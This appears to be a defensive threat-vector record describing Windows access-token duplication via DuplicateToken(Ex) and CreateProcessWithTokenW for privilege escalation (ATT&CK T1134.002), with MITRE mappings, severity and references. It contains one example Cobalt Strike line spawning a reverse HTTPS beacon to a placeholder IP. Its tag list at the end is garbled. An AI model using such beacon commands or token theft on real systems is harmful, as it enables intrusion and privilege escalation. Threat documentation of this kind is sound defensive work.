

# ☣️ Duplicate an access token in a new process to elevate privileges

🔥 **Criticality:High** ⚠️ : A High priority incident is likely to result in a demonstrable impact to public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.

🗡️ **ATT&CK Techniques** [T1134.002 : Access Token Manipulation: Create Process with Token](https://attack.mitre.org/techniques/T1134/002 'Adversaries may create a new process with an existing token to escalate privileges and bypass access controls Processes can be created with the token ')

---

`🔑 UUID : 349348ca-66f5-41d2-8610-6bb61556d773` **|** `🏷️ Version : 4` **|** `🗓️ Creation Date : 2022-11-18` **|** `🗓️ Last Modification : 2025-10-01` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.0`

## 👁️ Description

> An adversary can use automated solutions like CobaltStrike framework
> to create a new process with a duplicated token to escalate privileges 
> and bypass access controls. An adversary can duplicate a desired access 
> token with DuplicateToken(Ex) and use it with CreateProcessWithTokenW 
> to create a new process running under the security context of the 
> impersonated user. This is useful for creating a new process under 
> the security context of a different user.
> 
> The new process runs in the security context of the specified token. 
> It can optionally load the user profile for the specified user.
> Usually the function CreateProcessWithTokenW is running like 
> a process winbase.h 
> 
> The process that calls CreateProcessWithTokenW must have 
> SE_IMPERSONATE_NAME privilege. 
> 
> Adversaries commonly use token stealing to elevate their security context 
> from the administrator level to the SYSTEM level. An adversary can use a 
> token to authenticate to a remote system as the account for that token if the 
> account has appropriate permissions on the remote system.
> 
> Example for spawn of a process with token duplication:
> The process spawn is usually with PID (Process Identifier): 2572
> 
> spawn windows/beacon_https/reverse_https (<ip_address>:443) 
> in a high integrity process (token duplication)
> 

## 🖥️ Terrain 

 > Threat actors are using already compromised Windows environment to create 
> a new process with a duplicated token. Their purpose is often to elevate 
> their privileges to SYSTEM level access (NT AUTHORITY\SYSTEM), but the same 
> threat vector can also be used for defense evasion and other purposes by 
> duplicating other access token types and privilege levels.
> 

---

## 🕸️ Relations

### 🌊 OpenTide Objects
🚫 No related OpenTide objects indexed.

 --- 

### ⛓️ Threat Chaining

Expand chaining data

| ☣️ Vector                                                                                                                                                                                                                                                              | ⛓️ Link              | 🎯 Target                                                                                                                                                                                                                                                                                                                                         | ⛰️ Terrain                                                                                                                                                                                                                                                                                                                                                             | 🗡️ ATT&CK                                                                                                                                                                                                                                                                  |
|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:---------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [New Windows access token creation](../Threat%20Vectors/☣️%20New%20Windows%20access%20token%20creation.md 'A Windows access token is a data structure that contains informationabout a users security context, including their security identifierSID, group memb...') | `sequence::succeeds` | [Duplicate an access token in a new process to elevate privileges](../Threat%20Vectors/☣️%20Duplicate%20an%20access%20token%20in%20a%20new%20process%20to%20elevate%20privileges.md 'An adversary can use automated solutions like CobaltStrike frameworkto create a new process with a duplicated token to escalate privileges and bypass ...') | Threat actors are using already compromised Windows environment to create  a new process with a duplicated token. Their purpose is often to elevate  their privileges to SYSTEM level access (NT AUTHORITY\SYSTEM), but the same  threat vector can also be used for defense evasion and other purposes by  duplicating other access token types and privilege levels. | [T1134.002 : Access Token Manipulation: Create Process with Token](https://attack.mitre.org/techniques/T1134/002 'Adversaries may create a new process with an existing token to escalate privileges and bypass access controls Processes can be created with the token ') |
| [New Windows access token creation](../Threat%20Vectors/☣️%20New%20Windows%20access%20token%20creation.md 'A Windows access token is a data structure that contains informationabout a users security context, including their security identifierSID, group memb...') | `sequence::succeeds` | [Access token manipulation](../Threat%20Vectors/☣️%20Access%20token%20manipulation.md '### Access tokenAn access token is part of the logon session of the user, and it also contains their credentials forWindows single sign on SSO authent...')                                                                                               | Adversary must have administrative privileges on Windows systems within   the enterprise network.                                                                                                                                                                                                                                                                      | [T1098 : Account Manipulation](https://attack.mitre.org/techniques/T1098 'Adversaries may manipulate accounts to maintain andor elevate access to victim systems Account manipulation may consist of any action that preserves o')                                         |

&nbsp; 

---

## Model Data

#### **⛓️ Cyber Kill Chain**

 > Cyber attacks are typically phased progressions towards strategic objectives. The Unified Kill Chains provides insight into the tactics that hackers employ to attain these objectives. This provides a solid basis to develop (or realign) defensive strategies to raise cyber resilience.

 [`🥸 Privilege Escalation`](https://www.unifiedkillchain.com/assets/The-Unified-Kill-Chain.pdf) : The result of techniques that provide an attacker with higher permissions on a system or network.

---

#### **🛰️ Domains**

 > Infrastructure technologies domain of interest to attackers.

  - `🏢 Enterprise` : Generic databases, applications, machines and systems that are usually on premises or on Cloud traditional VMs.
 - `☁️ Public Cloud` : Infrastructure handled by a commercial cloud provider. Managed mostly on a service level, and connected over the internet.

---

#### **🎯 Targets**

 > Granular delimited technical entities holding a value to the organization, that are targeted by adversaries. They might be also involved in the detection coverage as the target of log collection. Partially inspired by Veris.

  - [`🔐 Auth token`](http://veriscommunity.net/enums.html#section-asset) : User Device - Authentication token or device
 - [`🖲️ Control Server`](https://collaborate.mitre.org/attackics/index.php/Control_Server) : A device which acts as both a server and controller, that hosts the control software used in communicating with lower-level control devices in an ICS network (e.g. Remote Terminal Units (RTUs) and Programmable Logic Controllers (PLCs)).
 - [`🖥️ Desktop`](http://veriscommunity.net/enums.html#section-asset) : User Device - Desktop or workstation
 - [`💻 Laptop`](http://veriscommunity.net/enums.html#section-asset) : User Device - Laptop

---

#### **💿 Platforms concerned**

 > Actual technologies used by the organization that will be exploited by adversaries during a successful attack, and eventually of relevance for detection. Are named by commercial designation.

 ` Windows` : Placeholder

---

#### **💣 Severity**

 > The severity summarizes the overall danger of incident the vector will provoke, and is to be derived (WIP) from impact, leverage, and difficulty to execute.

 [`🧨 Moderate incident`](https://www.ncsc.gov.uk/news/new-cyber-attack-categorisation-system-improve-uk-response-incidents) : A cyber attack on a small organisation, or which poses a considerable risk to a medium-sized organisation, or preliminary indications of cyber activity against a large organisation or the government.

---

#### **🪄 Leverage acquisition**

 > Technical aftermath of the attack from the target perspective, differentiated from impact as it does not consider the value of the consequence, only what increased control the vector execution provides to the adversary.

 [`💅 Elevation of privilege`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Capacity to augment leverage over the target system by upgrading the compromised access rights

---

#### **💥 Impact**

 > Analysis of the threat vector from the organizational perspective, in non technical term. This aims at putting a clear denomination on what the attacker will actually be able to act upon if the threat vector is realized.

 [`🥸 Identity Theft`](http://veriscommunity.net/enums.html#section-impact) : Acquisition of sufficient information and privileges to profess as a given individual, for the purpose of abusing and deceiving human trust relationships.

---

#### **🎲 Vector Viability**

 > Described with estimative language (likelyhood probability), describes how likely the analyst believes the vector to actually be realized on the organization infrastructure. Estimative language describes quality and credibility of underlying sources, data, and methodologies based Intelligence Community Directive 203 (ICD 203) and JP 2-0, Joint Intelligence.

 [`🧐 Likely`](https://www.dni.gov/files/documents/ICD/ICD%20203%20Analytic%20Standards.pdf) : Probable (probably) - 55-80%

---

### 🔗 References

**🕊️ Publicly available resources**

- [_1_] https://attack.mitre.org/techniques/T1134/
- [_2_] https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw
- [_3_] https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/untitled-1/create-process-with-token

[1]: https://attack.mitre.org/techniques/T1134/
[2]: https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw
[3]: https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/untitled-1/create-process-with-token

---

#### 🏷️ Tags

#-, #-, #-, #
, #
, ##, ##, ##, ##, # , #🏷, #️, # , #T, #a, #g, #s, #
, #

